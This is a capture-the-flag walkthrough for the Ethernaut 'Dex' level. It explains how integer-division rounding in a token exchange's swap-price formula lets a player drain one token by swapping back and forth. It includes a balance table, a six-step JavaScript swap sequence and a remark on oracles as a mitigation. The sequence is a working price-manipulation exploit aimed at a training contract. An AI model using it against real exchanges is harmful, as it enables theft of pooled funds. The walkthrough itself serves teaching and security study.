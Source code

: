[Level 22. Dex](https://ethernaut.openzeppelin.com/level/22)

## In A Nutshell

> In Solidity, division rounds to the floor.

## Concept

1. There's no floating point in Solidity.
2. Division should be cautiously approached, as precision loss can result in serious consequences.
3. It's dangerous to rely on single data source.

## Level Target

1. Drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

## Breakdown & Analysis

1. The formula in the function `getSwapPrice()` contains a flaw. The division will result in having more balance before each swap.
2. We can swap token 1 and token 2 alternately.

|              | DEX - Token1 | DEX - Token2 | Player - Token1 | Player - Token2 |
| ------------ |--------------|--------------|-----------------|-----------------|
| Before Swap  |      100     |      100     |        10       |        10       |
| After Swap 1 |      110     |      90      |        0        |        20       |
| After Swap 2 |      86      |      110     |        24       |        0        |
| After Swap 3 |      110     |      80      |        0        |        30       |
| After Swap 4 |      69      |      110     |        41       |        0        |
| After Swap 5 |      110     |      45      |        0        |        65       |
| After Swap 6 |      0       |      90      |       110       |        20       |

## Detailed Steps

```js
await contract.approve(contract.address, 300); // approve the contract to spend our token1 and token2.
token1 = await contract.token1(); // get token1's contract address
token2 = await contract.token2(); // get token2's contract address
await contract.swap(token1, token2, 10); // swap 1
await contract.swap(token2, token1, 20); // swap 2
await contract.swap(token1, token2, 24); // swap 3
await contract.swap(token2, token1, 30); // swap 4
await contract.swap(token1, token2, 41); // swap 5
await contract.swap(token2, token1, 45); // swap 6. Note that we can't swap with all our token2 balance since there are only 45 token2 in the pool at this time.
```

## Getting Price From A Single Source

It would be an attack vector if the contract retrieved data such as the price from a single source since hackers can manipulate that source and take advantage of it.

One way to mitigate this problem is using oracles such as Chainlink. It retrieves data from multiple sources and gathers them, then sends the result onto the chain.
